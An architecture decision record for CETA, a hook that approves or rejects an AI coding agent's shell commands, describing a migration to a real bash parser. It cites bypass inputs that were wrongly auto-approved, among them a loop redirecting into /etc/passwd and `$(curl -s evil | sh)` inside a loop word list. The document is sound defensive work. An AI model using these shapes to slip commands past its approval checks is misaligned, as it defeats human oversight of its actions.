

# CETA: one real shell parser front end for `cmdparse`, behind a single lowering seam

**Status**: Accepted (resolves `pg2-1vme1`)
**Date**: 2026-07-29
**Deciders**: Phillip Green II

## Context

CETA (`packages/claude-extended-tool-approver`) decides whether to approve, ask about, or reject a
`Bash` tool call. Everything downstream of that decision rests on `internal/cmdparse` agreeing with
itself about where a command begins, ends, and nests.

It does not. `cmdparse` derives command structure through **several independent, inconsistent text
passes**, each of which decides those boundaries for itself, so a disagreement between any two of
them is a security-relevant divergence. The design inventory records **thirteen** such sites, and
**four** of them were or are **live auto-approve holes** — inputs on which CETA answers `Approve`
for a command it has mis-structured. Representative examples:

- `for f in a b; do echo hi; done > /etc/passwd` approved, because the loop's terminator segment is
  dropped **with its redirection**.
- `for x in $(curl -s evil | sh); do echo hi; done` approved, because the loop's word list is
  dropped and the substitution is never recursed into.
- An unbalanced quote once made a substitution enumeration return an empty list, which folded to
  `Approve`.
- A `docker` rule splits on `&&`/`||`/`;` **inside** `$( )`, rewrites, and **rejoins** the text
  before handing it back to the engine, promoting `b` in `gosu u sh -c 'a; b'` to a top-level leaf.

The obvious remedy has already been tried. Commit `1c749bbd` consolidated four drifted scanner
copies into one shared `shellScanner`, and **nine more instances surfaced afterwards**. A second
consolidation is therefore not the answer; the question this decision answers is why consolidation
did not hold.

The two loop-segment holes above are filed separately as P0 `pg2-qkecz` and are **ordered first**:
they MUST be fixed on the primary branch ahead of this migration. A live auto-approve hole does not
wait for an architecture change, and fixing it first means the migration replay compares against a
baseline that does not contain it.

### Why consolidation did not hold — four root causes

Sharing a scanner addressed only the first of four independent causes.

1. **The shared byte scanner has no extent API.** `shellScanner.advance` reports what **one byte**
   does. It cannot report where a **region** ends. Every caller that needs an extent — a subshell's,
   a process substitution's, a paren match's, a heredoc body's — therefore hand-rolls a quote-blind
   depth counter **while holding the shared scanner**. Two such counters live inside `shellScanner`
   loops, and six more functions model quotes independently; one of them is documented by its own
   caller as not quote-aware, and that caller is on the P0 path. Relatedly, the two word-start
   predicates that produced a phantom heredoc from `(<)#<<0` are not drifted copies at all: one is
   **stateful** and one is **positional**, and a positional predicate cannot express "after a
   flushed subshell". That was an **unrepresentable predicate**, not drift, and no amount of sharing
   would have prevented it.

2. **Every pass returns text.** `splitCompound` returns `[]string`, `tokenize` returns `[]string`,
   `stripHeredocBodies` returns a **modified string**. Structure discovered by one pass is
   discarded, so the next pass re-derives it. The purest instance: a leaf's `Raw` is post-strip
   text, so re-parsing it re-derives a heredoc extent that is no longer terminated.

3. **The engine-to-rule boundary re-serialises structure back to text.** Two engine sites build a
   synthetic hook input from `pc.Raw`. Across 19 rule modules there are 22 `cmdparse.Parse` call
   sites, **19** of which re-parse that round-tripped `Raw`. Because the currency of the rule
   interface is `string`, hand-rolling a scanner is the path of least resistance **by
   construction** — Primitive Obsession sited at an architectural boundary rather than inside
   `cmdparse`. The `docker` text-rewriting hole is the predicted consequence: the rule needed
   operator-joined segments, `ParsedCommand` did not carry them, and the raw text was right there.

4. **A pass may DELETE a segment, so the leaf set is not a partition of the command.** This is
   neither a scanner nor a serialisation problem: structure is not mis-derived, it is **discarded**.
   `resolveLoops` replaces a loop with its body and advances past the terminator segment, dropping
   it along with any redirection attached to the compound; the `for` word list is likewise never
   added to the condition segments. The parser's leftover net covers **heredocs only** — there is no
   redirection net and no substitution net — so nothing catches the loss, and two existing tests pin
   both drops as _intended_.

Cause 4 is why the evidence strategy for this migration cannot be a differential corpus replay
alone: **a faithful port preserves a dropped segment on both sides of the comparison, so the replay
shows zero change while the hole persists.**

### Why a real parser, specifically

A single boolean "quote-aware" flag is insufficient. Quote handling has at least five axes: the
**role** of a quote character (syntax or data), **expansion liveness**, whether a construct
**resets** the quoting context, the **escape rule** in bare context, and whether an extent is
**knowable at all**. `mvdan.cc/sh/v3/syntax` encodes all five as **types** — `Lit`, `SglQuoted`,
`DblQuoted`, `CmdSubst`, `ProcSubst`, `Redirect.Hdoc`, and a parse error for the last axis — rather
than as predicates each caller re-derives.

Measured against a corpus of **189,678 distinct** `command` strings (drawn from the 208,986
non-excluded `Bash` rows of `tool_decisions`; 49,576 of the distinct commands, or
49576/189678 = 26.1%, are multi-line):

| Outcome                           | Rows    | Share                    |
| --------------------------------- | ------- | ------------------------ |
| parsed OK                         | 189,615 | 189615/189678 = 99.9668% |
| parse error, zsh-dialect cause    | 17      | 17/189678 = 0.0090%      |
| parse error, other cause          | 46      | 46/189678 = 0.0243%      |
| **total observed zsh dependence** | **23**  | 23/189678 = 0.0121%      |

The 46 "other" failures are 8 unclosed `"`, 5 unclosed `'`, 7 unclosed heredocs, and the remainder
genuinely invalid bash. Claude Code's `Bash` tool runs **zsh 5.9** on this machine, and the hook
input carries **no shell field** at all, so CETA is structurally blind to the executing dialect —
which is why the fail-safe contract below is required regardless of dialect. Across the ZipRecruiter
monorepo there are **0** zsh shebangs against **2,381** bash shebangs.

An initial attempt to measure zsh dependence with regexes over raw text reported 139 rows, most of
them false positives (`$var[` inside single-quoted `jq` programs, `=word` inside prose). That regex
pass was itself a quote-blind scanner and failed in exactly the way this decision exists to prevent;
the 23-row figure above is measured **from the AST**, so a signal inside a quoted argument or a
heredoc body counts as data.

The full evidence — the site-by-site inventory, the capability probes, the latency table, the
per-construct migration risk table, the enforcement guards, and the step plan — is recorded in this
repository (`phillipgreenii-nix-agent-support`) at
`packages/claude-extended-tool-approver/docs/superpowers/specs/2026-07-29-cmdparse-parser-front-end-design.md`.
This ADR is self-contained on **policy**; that spec holds the working detail.

## Decision

**Replace every structure-deriving text pass in `cmdparse` with one real shell parser, reached
through exactly one lowering seam.**

1. **Parser.** CETA MUST use `mvdan.cc/sh/v3` at `Variant(LangBash)` as its only source of command
   structure. The dependency MUST be added through the gomod2nix engine
   (`go mod tidy && nix run github:nix-community/gomod2nix -- generate`, with the generated
   `gomod2nix.toml` committed); it is in neither `go.mod` nor `gomod2nix.toml` today.

2. **One seam.** The parser MUST sit behind a single lowering seam inside `internal/cmdparse` that
   is the **only importer** of the parser package. The seam is a **Facade** over the parser and an
   **Adapter** from the parser's file type to CETA's own `ParsedCommand`.

3. **Lower to the existing type.** The seam MUST lower the AST to the existing `ParsedCommand`. The
   rule interface's shape is not renegotiated here; rule-chain policy is out of scope.

4. **Retain the source string.** The seam MUST retain the source string alongside the AST, and
   `ParsedCommand.Raw` MUST become the **exact source slice** spanning the owning statement's start
   and end offsets in that source. This single choice resolves three problems at once: `Raw` is no
   longer post-strip text, so it cannot re-derive an unterminated heredoc extent; the fuzz harness's
   idempotence invariant (re-parsing a leaf's `Raw` reproduces its executable and environment
   variables) becomes meaningful rather than vacuous; and the engine's cycle-detection key, which is
   a normalised **string**, is supplied without printing the AST. Printing would be
   structure-to-text — root cause 3 reintroduced — and its output would not equal the normalisation
   of the original, so every cycle key would silently change.

5. **Parse once per distinct text.** Each **distinct source text** MUST be parsed at most once per
   hook evaluation. Substitution and heredoc-body recursion MUST walk **subtrees** of an
   already-parsed file and MUST NOT re-parse body text.

6. **Any parse failure folds to Abstain.** A parse failure MUST yield `Abstain`, applied as a
   `MostRestrictive` **fold** rather than an early return. There MUST NOT be a fallback parser.

7. **Latency is a gate, not a finding.** The measured candidate figures (mean 15.139 µs to
   3.943 µs, a ratio of 15.139/3.943 = 3.8x; p50 7.167 µs to 2.458 µs; max 75.756 ms to 3.893 ms)
   were taken with an **incomplete** lowering and are a **LOWER BOUND**. The first migration step
   MUST re-measure the complete lowering, and that re-measurement is a **gate**: the conclusion "the
   candidate is not slower than what it replaces" is what this decision rests on and is not yet
   proven for the complete lowering.

### The seam

The verdict fold is a **Composite** over leaves ordered by a total restrictiveness order, and
`Unparseable` is a **first-class value** rather than an absent result. Retaining the source string
is load-bearing rather than incidental: the identity keys for cycle detection and for `Raw` both
depend on it.

### Invariants

Every clause below is normative. Each names the bead that established it; "this decision" means the
clause originates here.

- **I1a — fail-safe scan floor** (`pg2-wguam`). An unparseable or desynced **scan** MUST yield
  `Abstain` and MUST NEVER yield `Approve`. The floor MUST be applied as a `MostRestrictive`
  **fold**, never as an early return, so the result stays order-independent.

- **I1b — fail-safe parse floor** (this decision). A whole-command **parse failure** MUST yield
  `Abstain`. This is stronger than I1a: no leaf is examined, so any `Reject` a leaf would have
  earned is forfeited. Every such row MUST be reported as a forfeiture in the migration replay.

- **I2 — heredoc and herestring floor** (`pg2-r2rf3`). The heredoc floor MUST keep firing for every
  heredoc-**or herestring**-bearing leaf, because a body can be an interpreter's program
  (`sh <<EOF`, `python <<EOF`) that no shell parser models. It MUST remain a `MostRestrictive` fold.
  Every heredoc extent MUST reach some leaf; per-leaf attribution is deliberately imprecise and,
  because the floor is folded, does not affect the expression verdict.

- **I3 — heredoc quoting discriminator** (`pg2-r2rf3`). The quoted/unquoted heredoc discriminator
  MUST survive: identical bytes under `<<EOF` deny while `<<'EOF'` abstains. `<<-` tab stripping
  MUST keep working for body lines **and the terminator line**, and the command **following** a
  `<<-EOF` block MUST survive.

- **I4 — assignment approval gate** (`pg2-0q99a`). `assignmentIsWholeLeaf` MUST keep gating the
  `envvars` rule's `Approve`, and `TestEnvVars_ApproveOnlyForVerifiedPreserveForm` MUST continue to
  pass.

- **I5 — config-rules bypass bound** (`pg2-xkugg`). The engine's redirection and sibling-leaf
  backstops MUST hold, and the `len(pc.EnvVars) > 0` withhold in
  `internal/rules/configrules/configrules.go` MUST hold. Together they bound the `config-rules`
  bypass. The withhold is a **rule-side** guard, so the migration step that changes how a rule
  reaches `pc.EnvVars` owes its test.

- **I6 — single importer** (this decision). Only the seam file MAY import the parser's `syntax`
  package. Every other file in the module MUST NOT import it. The constraint is stated at **file**
  granularity deliberately: the seam lives inside `internal/cmdparse`, which has other files, so a
  package-level rule would not bind them.

- **I7 — parse each distinct source text once** (this decision). Each **distinct source text** MUST
  be parsed at most once per hook evaluation. Substitution and heredoc-body recursion MUST walk
  subtrees of an already-parsed file and MUST NOT re-parse body text. This is deliberately weaker
  than "one parse per command": the evaluator's expression entry point takes a `string`, and several
  callers construct text that exists nowhere in the source, so a **text** entry point MUST remain
  and MUST parse.

- **I8 — no fallback parser** (this decision). There MUST NOT be a fallback parser. Retaining the
  previous parser for inputs the new one rejects would reintroduce two scanners that can disagree.

- **I9 — no raw-text structure outside the seam** (this decision). No file outside the seam MAY
  derive command structure from raw text.

- **I10 — no Approve on an unparseable command** (this decision). CETA MUST NOT `Approve` a command
  the bash parser could not parse. Where the parser attributes the failure to zsh, the reported
  reason SHOULD name the dialect; where it does not, the reason MUST report the failure without
  guessing at a cause. This clause is deliberately scoped to **parse failure** rather than to
  "a dialect CETA cannot model": CETA receives no shell field in its hook input, so it can never
  establish which dialect will run, and the wider reading would forbid approving anything. A
  construct that parses cleanly in both dialects with differing meaning is therefore **outside**
  this clause; see the Consequences entry recording it as made visible rather than fixed.

- **I11 — no dependence on the agent shell being bash** (this decision). CETA's correctness MUST NOT
  depend on the agent shell being bash. Forcing bash is defence in depth, is applied in another
  repository, and can drift.

- **I12 — identity keys are exact source slices** (this decision). The seam MUST retain the source
  string alongside the AST. Identity keys — cycle detection and `Raw` — MUST be exact source slices
  and MUST NOT be produced by printing the AST.

- **I13 — no rule-constructed command text** (this decision). No rule MAY construct or mutate
  command text for re-evaluation. A rule needing to delegate MUST do so through a **structural**
  entry point that passes a subtree. Without this, the type-level half of the decision is only half
  a fix and the `docker` text-rewriting hole survives.

- **I14 — leaf coverage** (`pg2-qkecz` and this decision). Every executed subexpression MUST reach
  **at least one** leaf. No pass MAY delete a segment. This is the coverage invariant that root
  cause 4 requires and that a differential replay structurally cannot provide.

  The requirement is **coverage, not partition**, and that is a decision rather than an imprecision.
  Overlap is harmless: leaf verdicts fold through a most-restrictive operator over the total order
  `Approve < Abstain < Ask < Reject`, so judging one subexpression under two leaves can only hold a
  verdict at or above where one leaf alone would put it — it can never make the result less
  restrictive. Requiring exactly one leaf would also contradict I2, which deliberately permits
  imprecise per-leaf heredoc attribution, and would forbid attributing a compound's heredoc floor to
  each leaf that compound flattens into. What the security property needs is that **nothing is
  dropped**; uniqueness buys nothing and costs an invariant conflict.

### Enforcement

Policy without a mechanism is folklore, so each of the load-bearing invariants MUST get one:

1. **Import guard** (I6). A test MUST walk the import graph and fail if any file other than the seam
   imports the parser's `syntax` package. It MUST be demonstrated by temporarily adding the import
   to a rule module.

2. **Raw-text-structure guard** (I9). The enforceable form MUST be **type-level**: raw command text
   gets a distinct named type that only the seam can consume, so a function wanting to scan it
   cannot be written without importing the seam. A repo-wide static check with a reviewed allowlist
   is the fallback if the type change proves too invasive. The guard's scope MUST be the **whole
   module**, not just the rules and `cmdparse` packages — the `docker` hole was found _outside_
   `cmdparse`, which is the lesson. A syntactic "quote comparison inside a loop" property MUST NOT
   be used: it lands red on a character denylist that is not a scanner, and green on a genuine
   hand-rolled scanner that makes no quote comparison.

3. **Parse-count guard** (I7). A test MUST count parses **per distinct source string, per hook
   evaluation**, and fail on a repeat. It MUST land **after** the per-rule `gitdir` migration, not
   with the parse-once threading step, because `gitdir`'s leaf scoping re-parses the root expression
   the engine already parsed and recurses to depth 8, so the guard cannot go green before that is
   fixed.

4. **Coverage check** (I14). For every corpus row, a check MUST assert that the union of leaf source
   spans covers every executed subexpression of the parsed file. This does not depend on
   differential comparison and is the only mechanism that can see root cause 4.

5. **Differential replay.** Every migration step MUST replay all 189,678 rows and publish a
   transition table. The gate is **no transition in the less-restrictive direction** under
   `Approve < Abstain < Ask < Reject`. It MUST be worded that way rather than as "toward approve", so
   that I1b's `Reject → Abstain` forfeiture is caught rather than passing silently. The one permitted
   exception is a step whose stated purpose is to stop the parser breaking benign commands, where
   each transition MUST be justified individually. Blanket annotation of transitions is
   FORBIDDEN — three beads in this chain shipped on a blanket plan and were wrong each time.

6. **Fuzz continuity.** The existing parse fuzzer MUST be retained and becomes meaningful via the
   `Raw` decision above. Each fuzzer targeting a function the migration deletes MUST be **replaced**
   by a harness over the seam asserting the same property the deleted one asserted, and the
   replacement invariant MUST be stated in the step that performs the deletion.

Superseding a defect bead is valid only if its defect has a test that would catch a regression, so
each superseded bead owes a test in this refactor written against its **original reproducer** — not
a weaker restatement. In particular the owed test for the `2<<EOF` phantom-operand defect MUST
assert that `2<<EOF` does not leak into the argument list, **not** merely that the leaf is
heredoc-bearing, which already passes today and so could not catch a regression.

**Completion gate.** The new front end is valid when the entire existing suite passes unchanged, the
owed per-defect tests are added and pass, the coverage check is green, and the replay shows no
less-restrictive transition.

## Consequences

### Positive

- **Word start, quoting, nesting, and extents become parser facts rather than per-caller
  predicates.** The unrepresentable-predicate class of defect cannot recur, because there is no
  second predicate to disagree with the first.
- **The heredoc quoting discriminator is structurally encoded, not re-derived.** Under `<<EOF` a
  substitution in the body appears as a real substitution node in the body's parts; under `<<'EOF'`
  the identical bytes appear as a literal. That pair is load-bearing for I3 and now needs no
  re-derivation.
- **Comments, heredoc bodies, `fd`-prefixed heredoc operators, process substitutions in assignment
  position, and loop constructs are all native.** The probes confirm `(echo ')'; ls)` keeps `ls`,
  `#` stays inside a multi-line quoted argument, `cat 2<<EOF` yields a real file descriptor with no
  phantom operand, `A=<(evil) cmd` exposes `evil` as a walkable leaf, and `done <<DELIM` needs no
  text-prefix match.
- **`(<)#<<0` now fails to parse and therefore abstains**, which is the correct answer, reached
  structurally.
- **The fail-safe contract becomes automatic rather than per-site discipline.** With a single seam
  there is one place that can report "unparseable", so I1a/I1b are properties of the architecture
  instead of a habit each new call site must remember.
- **Migration steps are independently landable and independently measurable**, each with its own
  replay, so the change does not arrive as one unreviewable flip.
- **The upstream parser brings a maintainer, a fuzzing corpus, and spec tracking** that a
  hand-rolled lexer would not.

### Negative

- **The corpus replay is necessary but NOT sufficient.** Root cause 4 is invisible to it: a segment
  dropped on **both** sides of the comparison shows as **zero change**. The coverage check is the
  only mechanism that closes this gap, and the replay MUST NOT be presented as sufficient evidence.
- **A whole-command parse failure forfeits any `Reject` a leaf would have earned.** On the 63
  unparseable rows (63/189678 = 0.0332%) I1b abstains with **no leaf examined**. That is a movement
  in the **more permissive** direction on the restrictiveness order, even though it never reaches
  approve, and the replay gate's wording exists specifically to surface it rather than let it pass.
- **`FOO=(a b) cmd` regresses to `Abstain`.** The parser rejects it ("inline variables cannot be
  arrays") although the shell accepts it, and the outgoing code handled the form deliberately. The
  direction is safe, but it is a real capability loss and MUST appear in the replay.
- **The reported latency win is a LOWER BOUND, not a result.** The timed lowering omitted the
  command/exec-prefix unwrapping, assignment lifting, command normalisation, exact loop-resolution
  semantics, herestring handling, and exact unquoting parity. The first migration step MUST
  re-measure the complete lowering; until then the "not slower" conclusion is unproven.
- **The −1.22% leaf-count difference (818,475 against 828,620) is the verdict-moving delta in raw
  form** and MUST be accounted for **row by row**. It is not noise.
- **Migrating the substitution-scan family is unavoidable and is a third front end.** The flip step
  does not even compile without it, and that family's local "unparseable" notion has no AST analogue
  — it collapses into I1b, so bodies that today desync **locally** while sibling leaves still earn a
  `Reject` will change verdict. Those transitions MUST be enumerated.
- **Several constructs will silently change verdict if lowered naively**, each in the
  less-restrictive direction: keying heredoc-bearing off a non-empty body drops the Abstain floor
  for every herestring; the fabricated `/dev/fd/63` operand for a process substitution is what stops
  the redirect-target check demoting the leaf, so emitting the substitution's source text instead
  causes mass new abstains while emitting nothing loses the operand; and a **true** literal
  expansion is stricter than the outgoing unquoting, so mixed-quoted values such as `a'b'c` would
  newly **clear** the very predicate I4 exists to fence. That last one needs a **new** test — the
  existing one covers replace-versus-preserve, not mixed quoting.
- **Any leaf-set change re-keys historical analysis buckets.** Command-class normalisation is not a
  rule input, but it is the persisted grouping key for the hook-miss taxonomy, so the bucketing of
  existing history shifts.
- **A new third-party dependency enters the binary.** It is one pure-Go module with no cgo, but its
  transitive dependencies MUST be confirmed against the generated `gomod2nix.toml` rather than
  assumed.
- **About 34% of corpus rows have a non-existent working directory** and cannot be replayed. Skips
  MUST be reported, and the replayable subset MUST NOT be presented as the whole.
- **Replay MUST be run offline.** Hook mode writes the shared production decision log; a replay MUST
  use an offline engine construction, a redirected data home, or a backup copy, and MUST avoid the
  read-write evaluate path.

### Neutral

- **Dialect divergence that parses cleanly in both shells is not fixed by this decision, only made
  visible.** It is unobserved across all 189,678 rows.
- **Pointing the agent shell at a nix bash is defence in depth only.** It lives in a separate
  repository surface and MUST NOT be a blocking dependency of this migration, because I11 forbids
  depending on it.
- **An existing text re-entry guard is already inert** and MUST NOT be leaned on: the `docker` rule
  pushes the arguments **without** the `docker` token, which can never equal a nested inner
  `docker run …`. I13 replaces it.
- **The external diff driver configured in these repos makes `git diff | grep '^-'` find nothing.**
  Verification of deletions MUST use `--numstat` or `--no-ext-diff`.

## Alternatives Considered

### A hand-rolled single-pass lexer producing a real AST

**Subsumed, not rejected.** This is the correct _shape_ — the whole diagnosis above is that
`cmdparse` needs one pass that yields structure. Choosing to write it ourselves means owning the
shell grammar permanently for no additional capability and, subject to the latency re-measurement
gate, for no latency advantage either. The chosen parser is this alternative with an upstream
maintainer, an upstream fuzzing corpus, and spec tracking attached.

### Type-level enforcement of the rule boundary

**Adopted, in combination with the parser.** It addresses root cause 3, which a parser alone does
not, and it is the mechanism behind the raw-text-structure guard. It does **not** by itself close
the `docker` text-rewriting hole, which runs in the opposite direction (structure to text), which is
why I13 is stated separately.

### Generalising the existing fail-safe contract

**Adopted as the seam's contract.** With one seam it becomes automatic rather than a per-site
discipline that each new call site must remember.

### Differential and property testing as the evidence

**Adopted as an enforcement mechanism, but insufficient alone.** Root cause 4 makes the replay blind
to a segment dropped on both sides, so it is paired with the coverage check.

### A pre-parse "simple command" fast path

**Rejected.** Deciding whether a command is "simple" **is** the parsing decision: establishing that
`foo -a bar` is only a command and arguments requires establishing the absence of quotes, `$( )`,
backticks, `&&`/`||`/`;`/`|`, newlines, redirections, heredocs, assignments, globs, and subshells.
That classifier is a scanner over raw text, and a cheap one is by definition quote-blind — which is
the exact provenance of most of the inventory's auto-approve holes.

Worse, its **failure geometry is strictly worse than today's**. At present every command flows
through one parser, so a scanner bug yields a wrong verdict. With a pre-parse fast path, a
classifier that wrongly reports "simple" causes the command to **bypass the parser entirely** and be
judged by the weaker rule set — a fast path _around_ the security control. The motivating cost also
does not exist: the candidate's p50 is already below the outgoing front end's, so parsing everything
is cheaper than the status quo.

### Shape-gated approval

**Deferred out of scope**, not rejected. The sound version of the fast-path idea is to keep parsing
everything and make `Approve` conditional on a leaf shape a rule has declared it can judge,
generalising the whole-leaf assignment gate. It is deferred for two reasons. First, rule-chain
policy is out of scope here, and a shape lattice plus a per-rule declaration table is rule-chain
policy. Second, it carries the same geometry the fast path was rejected for, moved one layer down: a
**lowering** bug that wrongly reports a shape as simple **widens** approval. "Computed from the AST,
so it cannot disagree with the parser" answers the wrong objection — the risk is the **predicate**
being wrong, which is precisely the unrepresentable-predicate diagnosis. Adopting it therefore
requires its own fuzz invariant and its own replay, which is a separate bead.

### A zsh-specific rule tier

**Rejected.** Observed zsh dependence is 23/189678 = 0.0121% of the corpus and **0** in the
ZipRecruiter monorepo. A parse failure MUST `Abstain`; that is sufficient, and it is required
regardless of dialect anyway.

### A zsh parser

**Unavailable.** No production-grade Go zsh parser exists. The chosen module offers bash, POSIX,
mksh, and bats, and **declines zsh by name**. zsh itself offers `-n` — a syntax check that yields no
structure — and no library API. This is a constraint on the decision, not a preference within it.

### `tree-sitter-bash`

**Rejected.** It requires cgo, which the binary does not need today because its SQLite driver is
pure Go. No mature zsh grammar exists for it either, so it does not even buy the dialect coverage
that would justify the cost.

## Open questions carried forward

Two items are genuinely open. The rest of what a first draft carried here has been decided in place,
because an invariant whose meaning is ambiguous cannot be enforced, and these clauses are the ones a
future reader will be held to.

**Open:**

- **The enforcement mechanism for I9 is not finally settled** — type-level is preferred, with a
  static check plus a reviewed allowlist named as the fallback "if the type change proves too
  invasive", and no criterion for "too invasive". This is legitimately undecidable in advance: how
  invasive the type change is can only be established by attempting it. The per-rule migration step
  MUST decide it and MUST record which mechanism it chose and why.
- **Which four of the thirteen inventory sites are the live auto-approve holes** is now enumerated as
  sites 2, 3, 12 and 13 (sites 2 and 3 fixed by `pg2-wguam`; sites 12 and 13 open under `pg2-qkecz`).
  What remains open is whether that list is complete: sites 2 and 3 were found by inspection, 12 and
  13 by review of this decision's own first draft, and the search that found them was not systematic.
  A count of "four" MUST therefore be read as "four known", not "four".

**Decided in place, rather than carried forward:**

- **I14 is coverage, not partition** — "at least one leaf", with the reasoning recorded in the clause
  itself. Overlap cannot make a verdict less restrictive, and requiring uniqueness would contradict
  I2's deliberate imprecision about heredoc attribution.
- **I10 is scoped to parse failure**, not to "a dialect CETA cannot model". The wider reading is
  literally unsatisfiable, since CETA receives no shell field and can never establish the dialect.
- **I6 is a prohibition, not a permission** — only the seam file MAY import the parser; every other
  file MUST NOT. File granularity is deliberate, because the seam shares a package with other files.
- **The parser configuration is `Variant(syntax.LangBash)` with `KeepComments(true)`**, and the design
  now specifies both under its "Parser configuration" heading with the rationale for each. The
  variant is what makes a zsh-only construct a parse error rather than a silent mis-parse, so every
  dialect figure and the whole of I10 depend on it.
- **The fast-path rejection does not depend on the unproven latency figure.** Its other two arguments
  — that the classifier _is_ the parse, and that the failure geometry is strictly worse because a
  misclassification bypasses the parser entirely — are independent of any measurement, so the
  rejection stands even if re-measurement erases the latency advantage entirely.

## Related Decisions

- [ADR 0004](0004-ceta-configrules-xdg-config-for-consumer-rules.md) and
  [ADR 0033](0033-ceta-config-driven-kubectl-buildtools.md) — the `config-rules` schema and the
  config-driven rule extensions. I5's `len(pc.EnvVars) > 0` withhold is the rule-side guard that
  bounds the `config-rules` bypass, and it MUST survive this migration.
- Beads establishing the invariants carried here: `pg2-wguam` (I1a), `pg2-r2rf3` (I2, I3),
  `pg2-0q99a` (I4), `pg2-xkugg` (I5), `pg2-qkecz` (I14).
- Bead `pg2-qkecz` — the P0 loop-terminator and word-list segment drops. **Ordered first, on the
  primary branch, ahead of this migration**; not superseded by it. Its cases live in the hook-bypass
  regression test and MUST keep passing afterwards.
- Beads superseded or absorbed by this decision, each still owing a test against its original
  reproducer: `pg2-s26v5` (the bare-subshell truncation and the `Raw` decision it required),
  `pg2-4h7ee` (per-line comment stripping, which mangled 41 corpus rows), `pg2-14vjq` (the dropped
  `done <<DELIM` segment and the `2<<EOF` phantom operand), `pg2-qvn6a` (`A=<(evil)` never
  recursed), and `pg2-gkd5e`, whose position-independence invariant the exec-prefix unwrapping MUST
  not break.
- Bead `pg2-61tgf` — pointing the agent shell at a nix bash. Defence in depth, separate repository
  surface, and deliberately **no blocking edge** per I11.
- Bead `pg2-1vme1` — the review and strategy bead this decision closes out.
